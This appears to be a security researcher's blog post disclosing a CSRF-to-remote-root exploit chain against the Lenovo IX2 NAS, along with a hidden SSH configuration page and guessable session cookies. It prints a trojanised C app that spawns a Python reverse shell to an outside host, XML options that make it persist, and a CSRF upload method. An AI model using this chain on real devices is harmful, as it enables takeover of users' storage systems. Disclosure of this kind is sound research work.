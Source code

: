 #date: 2014-1-6 20:33:00 GMT
#slug: lenovo-ix2-csrf-root
#tags: lenovo,ix2,csrf,root,shell
#title: Lenovo IX2 Remote Root(CSRF), Multiple Vulnerabilities
#author: Jon Lamendola
#type: text

Over the holidays, we did an internal hackathon. I had access to a Lenovo IX2 NAS device, and I love breaking physical boxes - of course I had to go for it as my target. It's a simple ARM device running LifeLine Linux, a distribution designed by Lenovo to run on their NAS devices, both consumer and enterprise level. Within 5 minutes of opening the box and turning it on, I noticed there's absolutely no CSRF protection on any pages. 

So naturally, I spent a good deal of time looking for SQL/Command Injection. I came up with nothing. They sanitize all input fields very well. So I continued digging around on the device, with my sights set on getting a root shell. I discovered that you can turn on SSH, as well as set the SSH port/password via a hidden /manage/diagnostics.html page, that once again doesn't have CSRF protection on it. That was something, but seeing as how most of these devices are behind a firewall, the SSH was fairly useless from a remote attacker standpoint. 



I noticed an 'Applications' page on the device, that allows users to extend the functionality of their NAS device by installing third party apps. I started by trying to upload simple shell/php/cgi scripts, but with no luck. It's pretty picky about the formatting. I then tried to upload a valid third party app available from their lifelineapps store, and noticed it was in a strange .o2 file. After running the file command on it, turns out it's just a dpkg. 

I tried modifying files inside it and installing, but at compilation it creates an encrypted md5 hidden somewhere inside the .o2 file, making my modified .o2 invalid. After some searching around, I found the SDK available at http://www.developer.lifelineapps.com, available for the price of an email address. Unfortunately, it's not very well documented, and I didn't have a whole lot of time to figure out how their compiler expects the apps to be built. So I went for plan b - make an evil app from a demo. I downloaded the source for the Resource Monitor app, which is available once you've signed up for the SDK. 

Here's how I got a remote root shell running via CSRF.
  
**Lenovo IX2**
  
First, I opened up the main.c file inside the 'cpumon' folder. Pretty simple C program that retrieves system resource information, and prints it out into a JSON object. Here's what my modifications looked like:
```c
#include <stdlib.h>

printf("\"swapUsed\": \"%d\"", swapUsed); // in original code, 
	printf("}");						  // included as a reference point
	//python reverse connectback shell from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
	system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.112\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'"); 
```

After modifying the main.c file, I compiled the app from the 'resmon' folder using 'make target=arm-ix2-ng', and packed it into the required .tar.gz, assuming it would run upon install. Nope. I was able to get the shell to spawn by manually sshing in and executing, so I knew it was working as intended, but it wouldn't run. After some digging around, and a whole lot of frustration, I found the application.xml file had some options I could use to my advantage, particularly the cgibinDir option. 

I added the following to the application.xml files existing options:
```xml
<application cgibinDir="Yes" safeApp="Yes" isSecureUI="Yes"">
	<executable restartOnReboot="Yes" runOnce="No" sequence="1000" minutes="30" scheduled="Yes" />
</application>

```
The options will enable the cgi bin directory to be navigable, set the executable to run at boot and schedule it to run every 30 minutes. The compiler is so kind as to create a symlink to the cpumon executable in the cgi directory(remember we can't modify any files after compilation or it will break). Alright, so now we've got an evil installer that can be run via CSRF, but how do we go about exploiting it?

The first step is to generate the CSRF file upload. This can be done using an XMLHTTPRequest, which burp is handy enough to make with just a few clicks. There are two ways we can go about finding the IP of the internal device: 1, we can use the default mdns(ix2-dl.local) and hope the user hasn't changed it, or two, we can use webRTC to reveal the internal netmask and then force the user to ping scan their own network via XMLHTTPRequests. The PoC's for both are available on request. The exploit then sends the payload to all live IP's. Once the file has been uploaded, the executable should run automatically, as we've set it to be a scheduled with the application.xml. If it doesn't run for some reason, or you want to force it to run outside of the scheduled timing, that's why we set up the cgibinDir option. Simply navigate to http:ix2-dl.local/cpumon/cpumon-cgi/cpumon(no auth required), and we have a shell!

**Demonstration Video**
<iframe src="//player.vimeo.com/video/83540983" width="500" height="281" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe> <p><a href="//vimeo.com/83540983">Lenovo ix2-dl Root via CSRF</a> from <a href="//vimeo.com/andyet">&amp;yet</a> on <a href="https:////vimeo.com">Vimeo</a>.</p>

**Alright, so who's vulnerable?**
Any device running the Lenovo LifeLineEMC software version 4.0.6.19294 and prior is vulnerable. Simply change the compile target and rebuild. It does require that the user who visits the malicious page be logged in as admin, however.

**Hidden Page allows user to enable SSH and set Port+Password**
Example: http://ix2-dl/manage/diagnostics.html
This page allows a user to set the root SSH password and port, prefixed by the easily bruteforced word 'soho'. I.E. password test requires a logon password of sohotest. It appears this is intended behavior, but is a huge risk given that there are no anti-CSRF tokens present on the page.

**Information Leakage**
The Lenovo device automatically sets the internal address to http://ix2-dl.local via MDNS. This makes it a whole lot easier to exploit the formentioned CSRF Vulnerabilities.

**Weak Session Cookies**

The Lenovo IX2-DL appears to set session cookies as
```
<User IP Address>.<Current Epoch Time>. 
```
This is not an adequate amount of entropy to prevent bruteforcing. In reality, an attacker only needs to guess 7-8 numeric characters before he has an authenticated session. Adding a secret nonce and hashing of the value before making it a session cookie would make the session cookie much more difficult to bruteforce.

